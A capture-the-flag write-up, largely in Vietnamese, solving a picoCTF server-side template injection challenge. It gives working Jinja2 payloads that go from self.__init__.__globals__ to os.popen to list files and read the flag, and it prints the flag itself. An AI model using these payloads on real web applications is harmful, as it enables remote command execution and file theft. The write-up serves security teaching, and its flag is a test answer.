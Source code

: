 ## 🕵️‍♂️ Challenge:
### I made a cool website where you can announce whatever you want! Try it out!  
Additional details will be available after launching your challenge instance.  
### Hint:
1. Server Side Template Injection  
## 📝 Solution:

<img width="807" height="448" alt="image" src="https://github.com/user-attachments/assets/ebc8d72c-bf70-4f48-9eb9-b0f6b7566839" />

Đề cho 1 trang web khi người dùng nhập vào, nó sẽ đọc và in ra chuỗi vừa nhập.  

Vì đề gợi ý về Server Side Template Injection, vậy thử nhập {{7*7}} xem sao:  

<img width="1499" height="611" alt="image" src="https://github.com/user-attachments/assets/7a57d0ed-330e-4c6d-a40f-3d1e1576cac4" />

Nó in ra 49, vậy đúng là trang web có lỗ hỏng SSTI, bây giờ hãy khai thác nó.  

Thử nhập chuỗi sau để xác định xem trong context render có object nào cho phép leo lên **__globals__** hoặc truy cập module như os/sys hay không.:
```
{{ self.__init__.__globals__ }}
```

<img width="1912" height="988" alt="image" src="https://github.com/user-attachments/assets/0478bd0f-554e-4071-85eb-0d82c7eec6f7" />

Kết quả cho thấy có khả năng truy cập vào các thành phần bên trong của Python, bao gồm __builtins__. Từ đây, chúng ta có thể gọi các hàm nguy hiểm như __import__.  
Khi đã có hàm _import_, ta có thể import module OS để thực thi các lệnh hệ thống, nhập chuỗi sau để liệt kê các thành phần:  
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}
```

<img width="1733" height="660" alt="image" src="https://github.com/user-attachments/assets/919ff1e1-fba2-4a7a-bb62-8d6d2469299c" />

Vậy là có file `flag`, tiến hành đọc nó:  
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}
```

<img width="1919" height="661" alt="image" src="https://github.com/user-attachments/assets/de875304-7c6e-4783-9b8b-ad65acfcc712" />


> 🎯 Flag: **`picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_f5438664}`**
